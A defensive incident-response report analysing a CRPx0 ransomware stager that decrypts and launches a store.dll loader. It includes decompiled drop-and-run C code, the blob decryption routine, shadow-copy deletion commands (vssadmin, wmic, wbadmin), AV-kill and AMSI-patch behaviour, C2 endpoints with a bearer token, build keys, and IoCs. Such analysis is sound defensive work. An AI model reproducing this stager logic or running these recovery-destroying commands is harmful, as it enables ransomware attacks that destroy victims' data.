



# Ransomware CRPx0 — standalone EXE stager (`store.dll` variant)

Language: English | French version: [README.md](README.md)

**Sample (local file):** `sample.exe` (= `bac340524549410f51b060f21abb7db30c0c5378edd2e3ac15b526e141417e89`)  
**Family:** CRPx0 / CRPxO (RaaS) — COMMAND builder **standalone EXE** format  
**Role of this PE:** MinGW stager that decrypts and launches `%LOCALAPPDATA%\store.dll` (Stage-3 Python loader)  
**Final payload:** cross-platform Python ransomware (exfil then Fernet + RSA wrap)  
**File extension:** `.crpx0` (appended)  
**Notes:** `HOW TO RECOVER.txt` / `HOW TO RECOVER.html`  
**Sibling article:** [../Ransomware.CRPX0/](../Ransomware.CRPX0/README_EN.md) — same family, drops `index.dll`, different OP id  
**Sources:** PE + Hex-Rays IDA 9.4 + decrypted Stage-3 blob + extracted Stage-4 Python + live **x32dbg** session

> **Defensive / IR** analysis only. The binary was **not** run outside controlled debugging. The Python / mass-encrypt chain was **not** completed on the VM (Stage-3 anti-VM would hang; stop after `DeleteFileA`).

---

## 0. Code ↔ debugger synthesis

Stacked format (observation, then confirmation below).

- **PE32 GUI MinGW**, ~3.88 MiB, 8 sections, `.data` entropy ~7.99 (encrypted blob)
  → EP RVA `0x13F0`; TimeDateStamp `2026-08-02 18:58:14 UTC`

- **CRPx0 standalone EXE** chain (no ClickFix / no `RunMRU`)
  → strings `LOCALAPPDATA` + `\store.dll`; logic `sub_4016AA`

- **Blob decrypt** XOR 64-byte + **ROL6** + NOT + XOR 64-byte, length `0x3B0800`, `ko1=0xDF` / `ko2=0x10`
  → `sub_401572`; artefact [store.dll](artefacts/store.dll)

- **x32dbg:** ASLR ImageBase `0x770000`; `CreateFileA` / `WriteFile` / `CreateProcessA` / `DeleteFileA` on `C:\Users\petik\AppData\Local\store.dll`
  → [x32dbg_session.txt](artefacts/x32dbg_session.txt); live buffer `0x773020` starts with **MZ**

- **Stage 3** = PE32 GUI (despite `.dll` name): anti-VM, onion poison TLDs `.ws/.ly/.pet/.sh/.moe`, `tar.exe`, Python embed `CRPX0_EMBEDDED=OFFLINE`, folders under `%TEMP%\Low_Graphics_Cache`…
  → [ida_export_store/](artefacts/ida_export_store/)

- **Stage 4** Python: `OPERATION_ID=OP_1785697059`, `AFFILIATE_ID=21`, ext `.crpx0`
  → [stage4_payload.py](artefacts/stage4_payload.py)

- **C2** `207.180.29.236:8080/relay.php` + onion API; Bearer `crpx0_c2_2026` (via `dx()`)
  → [iocs_network.txt](artefacts/iocs_network.txt)

- **File crypto:** Fernet (first 1 MiB) + RSA-OAEP header; remainder plaintext
  → [footer_crpx0_layout.txt](artefacts/footer_crpx0_layout.txt)

- **Wallpaper** embedded PNG → `~/.4e8a82f7.png` + `SystemParametersInfoW` (same image as sibling)
  → [wallpaper.png](artefacts/wallpaper.png)

- **No author private key** in the sample
  → public key only: [rsa_pubkey.pem](artefacts/rsa_pubkey.pem)

### Differences vs sibling `Ransomware.CRPX0`

| Point | This sample (`store.dll`) | Sibling (`index.dll`) |
|-------|---------------------------|------------------------|
| Stage-3 drop | `%LOCALAPPDATA%\store.dll` | `%LOCALAPPDATA%\index.dll` |
| Blob rotate | **ROL 6** (Hex-Rays `<<6 \| >>2`) | **ROR 1** (sibling write-up) |
| `ko1` / `ko2` | `0xDF` / `0x10` | `0x4E` / `0xC3` |
| Stage-3 SHA256 | `5791cc18…009db2` | `5856f684…9560` |
| `OPERATION_ID` | `OP_1785697059` | `OP_1785692479` |
| Mutex | `Global\sys_lock_3303b4c9_OP_1785697059` | `Global\sys_lock_eb330e5d_OP_1785692479` |
| Wallpaper path | `~/.4e8a82f7.png` | `~/.d0078e02.png` |
| Live ImageBase | `0x770000` | `0x8A0000` |
| Stager routines | `sub_401572` / `sub_4016AA` | `sub_401566` / `sub_4016DB` |
| Affiliate / C2 / RSA / ext | **same** (`21`, same pubkey, `.crpx0`, same Bearer) | same |

For overlapping Python crypto / walk / note marketing already covered on the sibling: see [../Ransomware.CRPX0/README_EN.md](../Ransomware.CRPX0/README_EN.md) §§6–8 — this report focuses on the `store.dll` stager + Stage-3 variant and IoCs specific to `OP_1785697059`.

---

## 0bis. Diagrams

### S1 — Global view (standalone EXE → `store.dll`)



**In one sentence:** a small C stager drops a loader that (outside a lab) installs offline Python and runs a Python ransomware that exfiltrates then encrypts.

### S2 — Stager blob decrypt (`sub_401572`)

```mermaid
flowchart LR
  A[k1[64], k2[64]] --> B["k1 ^= ko1 (0xDF)<br/>k2 ^= ko2 (0x10)"]
  B --> C[For each blob byte]
  C --> D["x ^= k2[i%64]"]
  D --> E["x = ROL(x,6)"]
  E --> F["x = ~x"]
  F --> G["x ^= k1[i%64]"]
  G --> H[Cleartext Stage-3 store.dll PE]
```

### S3 — Stage 3 (`store.dll`) — anti-analysis → Python



---

## 1. PE / entry point

| Field | Value |
|-------|-------|
| Type | PE32 GUI, Intel i386 |
| Size | 3 884 544 bytes |
| Preferred ImageBase | `0x400000` (live ASLR `0x770000`) |
| EP RVA | `0x13F0` → CRT `start` then drop `sub_4016AA` |
| TimeDateStamp | `0x6A6F9346` = 2026-08-02 18:58:14 UTC |
| Compiler | MinGW-w64 / GCC (`Mingw-w64 runtime failure`, libgcc) |
| Overlay | none |
| Resources / exports | none on the stager EXE |

**Sections:**

| Section | VA | Raw size | Entropy | Role |
|---------|-----|----------|---------|------|
| `.text` | `0x1000` | `0x1C00` | ~6 | stager (~6–7 KiB useful) |
| `.data` | `0x3000` | `0x3B0A00` | ~7.99 | encrypted Stage-3 blob + keys |
| `.rdata` | `0x3B4000` | `0x600` | ~5 | `LOCALAPPDATA`, `\store.dll`, CRT |
| `.idata` | `0x3B7000` | `0x600` | ~4.6 | KERNEL32 + msvcrt |

**Stager imports (intentionally sparse):** `CreateFileA`, `WriteFile`, `CreateProcessA`, `DeleteFileA`, `GetEnvironmentVariableA`, `LoadLibraryA`, `GetProcAddress`, `VirtualProtect`, `Sleep`, … — no Windows crypto APIs; everything is custom in `.text`.

### Hashes

| Algo | Value |
|------|-------|
| MD5 | `4966992c81f7062ed3913ee023240edc` |
| SHA1 | `7ef833c2b5d000ec8577f235d5071d961ffb4ecd` |
| SHA256 | `bac340524549410f51b060f21abb7db30c0c5378edd2e3ac15b526e141417e89` |

---

## 2. Stager init (EXE)

### 2.1 What is this for?

This file is **not** the ransomware itself. It is a **container**: almost 4 MiB of encrypted data plus a short routine that decrypts it, writes it to disk under a bland name (`store.dll`), launches that PE, then tries to delete it. The affiliate can ship this EXE alone (attachment, dropper, USB) **without** a ClickFix page.

### 2.2 Flow `sub_4016AA` (cleaned)

```c
// sub_4016AA @ 0x4016AA — cleaned
int drop_and_run_stage3(void) {
    char path[260];
    GetEnvironmentVariableA("LOCALAPPDATA", path, 260);
    lstrcatA(path, "\\store.dll");         // → %LOCALAPPDATA%\store.dll

    decrypt_blob_inplace();                 // sub_401572 in-place on byte_403020

    HANDLE h = CreateFileA(path, GENERIC_WRITE, 0, NULL,
                           CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (h != INVALID_HANDLE_VALUE) {
        WriteFile(h, byte_403020, nNumberOfBytesToWrite /*0x3B0800*/, ...);
        CloseHandle(h);
        Sleep(5);

        STARTUPINFOA si = {0}; si.cb = 68;
        PROCESS_INFORMATION pi;
        CreateProcessA(path, NULL, NULL, NULL, FALSE,
                       CREATE_NO_WINDOW /*0x08000000*/, NULL, NULL, &si, &pi);
        DeleteFileA(path);                 // ephemeral artefact
    }
    return 0;
}
```

### 2.3 Blob crypto (`sub_401572`)

| Parameter | VA (ImageBase `0x400000`) | Value (this build) |
|-----------|---------------------------|--------------------|
| Blob | `byte_403020` | 3 868 672 bytes (`0x3B0800`) |
| `k1` | `byte_7B3840` | 64 bytes |
| `k2` | `byte_7B3880` | 64 bytes |
| `ko1` / `ko2` | `byte_7B38C0` / `C1` | `0xDF` / `0x10` |

Algorithm (confirmed by Hex-Rays **and** live):

1. `k1[i] ^= ko1`; `k2[i] ^= ko2` for `i ∈ [0..63]`
2. Per byte: `x ^= k2[i&63]` → **`ROL(x,6)`** → `x = ~x` → `x ^= k1[i&63]`

> **Family note:** the sibling article documents **ROR1** on its `index.dll` build. Here the compiler/builder produced **ROL6** (`(x<<6)|(x>>2)`), equivalent to ROR2. Do not blindly copy the algorithm across builds — always cross-check the `.c`.

Re-extraction script: [extract_stager_blob.py](artefacts/extract_stager_blob.py).  
Decrypted PE SHA256: `5791cc18f6b0d4232cdd078c407564dda63846008dd3a36ebb116c038f009db2`.

### 2.4 Live x32dbg confirmation

- Desktop VM path: `C:\Users\petik\Desktop\bac34052…417e89`
- PID **3968**, ImageBase **`0x770000`**, live EP `0x7713F0`
- Observed chain: `sub_4016AA` → `sub_401572` → `CreateFileA` → `WriteFile` (buffer `0x773020`, size `0x3B0800`, **MZ** head) → `CreateProcessA` (`CREATE_NO_WINDOW`) → `DeleteFileA`
- Session stopped after `DeleteFileA`: Stage-3 anti-analysis (1 CPU / `BeingDebugged` / `NtGlobalFlag`) would hang; **no** mass encryption

Details: [x32dbg_session.txt](artefacts/x32dbg_session.txt).

---

## 3. Collateral effects

### 3.1 Stage 3 — `.onion` poison + Python drop

**What is this for?**  
When the loader sees a `.onion` URL (e.g. Tor C2 / leak mirror), it rewrites the TLD by replacing it with a “poison” fake TLD (`.ws`, `.ly`, `.pet`, `.sh`, `.moe`) before write/use — muddies network IoCs and naïve domain lists. It then extracts an embedded Python runtime under bland folder names (`Low_Graphics_Cache`, `Cache_Sys`, …) via `Shell.Application` / `CopyHere` and `tar.exe -xf`, then launches `%s\python.exe` with `CRPX0_EMBEDDED=OFFLINE`.

### 3.2 Stage 4 Python (from source, not replayed)

| Effect | Detail |
|--------|--------|
| Notes | `HOW TO RECOVER.txt` (+ HTML) in home, Desktop, Documents, Downloads, `C:\` |
| Wallpaper | decode `BACKGROUND_B64` → `~/.4e8a82f7.png`; `SystemParametersInfoW(20, …)` |
| Persistence | scheduled task **“OneDrive Sync Maintenance”** (`schtasks /sc onlogon`) |
| Mutex | `Global\sys_lock_3303b4c9_OP_1785697059` |
| Self-destruct | `self_destruct()` at end of `main` |

Extracted wallpaper: [wallpaper.png](artefacts/wallpaper.png) (PNG 1536×1024, SHA256 `db34de09…e4bb4a` — **identical** to sibling).



---

## 4. Elevation / UAC

The Python script attempts `uac_bypass()` if not admin (`IsUserAnAdmin`), with `uac_elevated` argument to avoid loops. Not replayed live.

---

## 5. Anti-recovery / anti-analysis

### 5.1 Stage 3 (`sub_402A58` and nearby)

If any of the following is true → `Sleep(INFINITE)`:

- `IsDebuggerPresent` (dynamically resolved) non-zero
- `NtGlobalFlag & 0x70` (heap debug)
- CPU count **≤ 1**
- very low perf/RAM counter (`≤ 0x493DF` in the check)
- `GlobalMemoryStatusEx`: total memory **≤ ~1.5 GiB** (`0x5FFFFFFF`)
- free disk on `C:\` **&lt; 50 GB**

On the debug VM (1 CPU, debugger attached): Stage 3 **does not proceed** — consistent with the voluntary stop after `DeleteFileA`.

### 5.2 Stage 4 (Python)

**Windows (dx-decoded / source):**

- `vssadmin delete shadows /all /quiet`
- `wmic shadowcopy delete /nointeractive`
- `wbadmin delete catalog -quiet`
- AMSI / ETW patch, `ntdll` unhook, AV kill (73 processes + 57 services)

Exhaustive lists:

- [list_kill_av_processes.txt](artefacts/list_kill_av_processes.txt)
- [list_kill_av_services.txt](artefacts/list_kill_av_services.txt)

**macOS / Linux:** `tmutil` / `timeshift` per platform.

---

## 6. Walk / exclusions / categories

`stage1_scan` classifies files via `FILE_EXTENSIONS` (**147** unique extensions, 7 categories) and honors `EXCLUDE_DIRS` per OS (Windows 23 / Darwin 20 / Linux 16).

**Non-encrypted blacklist:** `.exe` `.dll` `.sys` `.ini` `.lnk` `.crpx0`

Source of truth in this folder: [stage4_payload.py](artefacts/stage4_payload.py).  
Extracted lists on the sibling (same walk schema, different OP): [../Ransomware.CRPX0/artefacts/](../Ransomware.CRPX0/artefacts/) (`list_file_extensions.txt`, `list_exclude_*.txt`, …).

---

## 7. Crypto — detail

### 7.1 What is this for?

Two distinct layers:

1. **Script config / obfuscation:** a build Fernet key (`AES_KEY_B64`) decrypts `XOR_KEY`, used by `dx([...])` to hide C2, notes, VSS commands, etc.
2. **Victim file encryption:** a **per-infection** Fernet key is generated, sent to C2 (`key_handshake`), wrapped with RSA-OAEP using the embedded pubkey, then used to encrypt only the **first mebibyte** of each file.

### 7.2 Build config (this sample)

| Field | Value |
|-------|-------|
| `OPERATION_ID` | `OP_1785697059` |
| `AFFILIATE_ID` | `21` |
| `AES_KEY_B64` | `KaoE1fC-NmnuojVjDs6kLZBDejDx7FZGRlNGd7EOneU=` |
| `XOR_KEY` (runtime) | `c7bdb72ac7df4deaecc133beef5da0c9` |
| `C2_AUTH_TOKEN` | `crpx0_c2_2026` (after `dx([0,69,18,…])`) |
| RSA pubkey | 4096-bit PEM — [rsa_pubkey.pem](artefacts/rsa_pubkey.pem) (SHA256 `78973e6a…28429f`, **identical** to sibling) |

**No author private key in the sample** → no victim decryptor can be derived from these artefacts alone.

### 7.3 `.crpx0` file layout

See [footer_crpx0_layout.txt](artefacts/footer_crpx0_layout.txt).

| Offset | Size | Content |
|--------|------|---------|
| 0 | 4 | `len(rsa_blob)` LE |
| 4 | N | RSA-OAEP(SHA-256) blob of the Fernet key |
| 4+N | 8 | `len(encrypted_data)` LE |
| 12+N | M | `Fernet.encrypt(first 1 MiB)` |
| 12+N+M | … | **remainder of file in plaintext** |

- Extension **appended**: `document.pdf` → `document.pdf.crpx0`
- atime/mtime preserved; original deleted
- Marketing note claims “AES-256 + RSA-2048”; code uses **Fernet (AES-128-CBC+HMAC)** + **RSA-4096** PEM

For line-by-line crypto prose already written on the sibling build: [../Ransomware.CRPX0/README_EN.md](../Ransomware.CRPX0/README_EN.md) §7.

### 7.4 Stage 3 → Python bootstrap

zlib/base64 blob in the loader → micro-bootstrap ([python_bootstrap_head.py](artefacts/python_bootstrap_head.py) / [embedded_bootstrap.py](artefacts/embedded_bootstrap.py)):

```python
os.environ['CRPX0_LOADER'] = '1'
# … base64 + zlib → exec Stage 4
```

Decompressed payload: [stage4_payload.py](artefacts/stage4_payload.py).

---

## 8. Ransom note

Dropped files: **`HOW TO RECOVER.txt`** and **`HOW TO RECOVER.html`**.

Highlights from the text template ([ransom_note_template.txt](artefacts/ransom_note_template.txt)):

- Banner **CRPxO — YOUR FILES HAVE BEEN ENCRYPTED**
- Claims exfil **before** encryption; 24 h (−50%) / 48 h / DLS publication deadlines
- DLS: `https://crpx0.su` + onion `tlxoddx4odmc2qvsmtsbgwwsv5j45osb5sox7mz6izxliuju5mkulzad.onion`
- Negotiation: `kqi5yty6ipuhwz4anutty6hob6et7dvnnxg6kcnulwedjaz5oton2zyd.onion`
- Tox ID `17EB54B8455144E088C7E77F88A97221C319F0CFE4FE306853EEB113EE8DB5607BB6EE481C7C`
- Session ID `050546f6719172e04151c31acb37a242fa3eeff5766aa57331d26cc06e83e9e25b`
- Placeholder `{opid}` → `OP_1785697059`

---

## 9. Timeline (static + bounded live)

| Step | Where | What |
|------|-------|------|
| T0 | CRT `start` | MinGW init |
| T1 | `sub_4016AA` | builds `%LOCALAPPDATA%\store.dll` |
| T2 | `sub_401572` | decrypts 0x3B0800 bytes in-place (ROL6) |
| T3 | `CreateFileA` / `WriteFile` | Stage-3 drop (MZ confirmed live) |
| T4 | `CreateProcessA` | launches Stage 3 (`CREATE_NO_WINDOW`) |
| T5 | `DeleteFileA` | deletes drop |
| T6+ | Stage 3/4 | anti-VM / Python / `.crpx0` — **not run through encryption** |

---

## 10. IoCs

| Type | Value |
|------|-------|
| SHA256 (EXE) | `bac340524549410f51b060f21abb7db30c0c5378edd2e3ac15b526e141417e89` |
| SHA1 | `7ef833c2b5d000ec8577f235d5071d961ffb4ecd` |
| MD5 | `4966992c81f7062ed3913ee023240edc` |
| SHA256 (`store.dll`) | `5791cc18f6b0d4232cdd078c407564dda63846008dd3a36ebb116c038f009db2` |
| SHA256 (wallpaper) | `db34de096cfb2aa5e4ea579c11c3ed6b2095d39c73e74bf4d444fc9d6fe4bb4a` |
| Drop path | `%LOCALAPPDATA%\store.dll` |
| Mutex | `Global\sys_lock_3303b4c9_OP_1785697059` |
| Extension | `.crpx0` |
| Notes | `HOW TO RECOVER.txt`, `HOW TO RECOVER.html` |
| Wallpaper path | `%USERPROFILE%\.4e8a82f7.png` |
| Scheduled task | `OneDrive Sync Maintenance` |
| C2 clearnet | `http://207.180.29.236:8080/relay.php` |
| C2 onion API | `http://xburs4nr6cbuktokhqwefeh5hsjakz6usll5o7z5uhrfcnolakj4ptad.onion/api.php` |
| Auth | `Authorization: Bearer crpx0_c2_2026` |
| DLS | `https://crpx0.su` |
| Affiliate | `21` |
| Operation | `OP_1785697059` |
| Poison TLDs | `.ws` `.ly` `.pet` `.sh` `.moe` |
| TEMP folders | `Low_Graphics_Cache`, `Cache_Sys` |

---

## 11. ATT&CK (excerpt)

| Tactic | Technique | ID | Observation |
|--------|-----------|-----|-------------|
| Execution | User Execution / Native API | T1204 / T1106 | Direct EXE; `CreateProcessA` |
| Persistence | Scheduled Task | T1053.005 | `OneDrive Sync Maintenance` |
| Defense Evasion | Deobfuscate/Decode | T1140 | XOR+ROL6+NOT blob; `dx()`; zlib bootstrap |
| Defense Evasion | Impair Defenses | T1562 | AMSI/ETW patch, AV kill; anti-VM Sleep |
| Defense Evasion | Masquerading | T1036 | `store.dll`, TEMP “cache” names |
| Discovery | File Discovery | T1083 | `stage1_scan` |
| Collection | Archive Collected Data | T1560 | ZIP chunk exfil |
| Exfiltration | Exfiltration Over C2 | T1041 | POST `relay.php` |
| Impact | Data Encrypted for Impact | T1486 | Fernet + `.crpx0` |
| Impact | Inhibit System Recovery | T1490 | VSS / wbadmin / tmutil |
| Impact | Defacement | T1491.001 | wallpaper PNG |

---

## 12. Captures / live

No Any.RUN campaign provided for this hash. Main evidence: x32dbg session + extracted artefacts.

- [x32dbg_session.txt](artefacts/x32dbg_session.txt)
- Live Desktop path: `C:\Users\petik\Desktop\bac34052…417e89`
- Live drop: `C:\Users\petik\AppData\Local\store.dll`

---

## 13. Deliverables

Short clickable labels; paths under `artefacts/`.

| Group | File | Role |
|-------|------|------|
| Report | [README.md](README.md) | FR |
| Report | [README_EN.md](README_EN.md) | EN |
| Sample | [sample.exe](sample.exe) | Stager EXE |
| Sample | [bac34052…7e89](bac340524549410f51b060f21abb7db30c0c5378edd2e3ac15b526e141417e89) | Same binary (hash name) |
| IDA | [sample.c](artefacts/ida_export/sample.c) | Hex-Rays stager |
| IDA | [store.c](artefacts/ida_export_store/store.c) | Hex-Rays Stage 3 |
| Stage3 | [store.dll](artefacts/store.dll) | Decrypted loader PE |
| Python | [stage4_payload.py](artefacts/stage4_payload.py) | Stage-4 ransomware |
| Python | [embedded_bootstrap.py](artefacts/embedded_bootstrap.py) | Embedded bootstrap |
| Python | [python_bootstrap_head.py](artefacts/python_bootstrap_head.py) | Bootstrap head |
| Scripts | [extract_stager_blob.py](artefacts/extract_stager_blob.py) | Blob re-extract |
| Crypto | [rsa_pubkey.pem](artefacts/rsa_pubkey.pem) | RSA-4096 pub |
| Crypto | [footer_crpx0_layout.txt](artefacts/footer_crpx0_layout.txt) | `.crpx0` layout |
| Note | [ransom_note_template.txt](artefacts/ransom_note_template.txt) | TXT note |
| Note | [ransom_note_template.html](artefacts/ransom_note_template.html) | HTML note |
| Wallpaper | [wallpaper.png](artefacts/wallpaper.png) | Desktop wallpaper |
| Live | [x32dbg_session.txt](artefacts/x32dbg_session.txt) | Debug session |
| Lists | [list_kill_av_processes.txt](artefacts/list_kill_av_processes.txt) | Kill procs (73) |
| Lists | [list_kill_av_services.txt](artefacts/list_kill_av_services.txt) | Kill svcs (57) |
| Network | [iocs_network.txt](artefacts/iocs_network.txt) | C2 / DLS |
| Strings | [strings_ascii.txt](artefacts/strings_ascii.txt) | Stager strings |
| Strings | [store_strings_ascii.txt](artefacts/store_strings_ascii.txt) | Stage-3 strings |

---

## 14. References + unverified

**References:**

- Sibling article: [Ransomware.CRPX0](../Ransomware.CRPX0/README_EN.md) (`index.dll` variant)
- Ransom-ISAC — *CRPx0 ClickFix Ransomware Analysis* (2026-08-27) — family / kill chain / standalone formats
- The Raven File / DFIR Radar — operator / infra context

**Not verified in this session:**

- Full Stage 3/4 execution (Python embed, exfil, mass encryption) on the VM
- Live `relay.php` responses / current onion validity
- Exact post-`CreateProcessA` behaviour beyond anti-VM Sleep
- Author RSA private key (absent from sample)
- ClickFix HTML / DLL sideload variant for the same affiliate
- Fine-grained Stage-4 behavioural diffs vs sibling beyond `OPERATION_ID` / build keys / wallpaper paths

---

*Defensive analysis — petikvx-archiver / Articles — 2026-09-08*
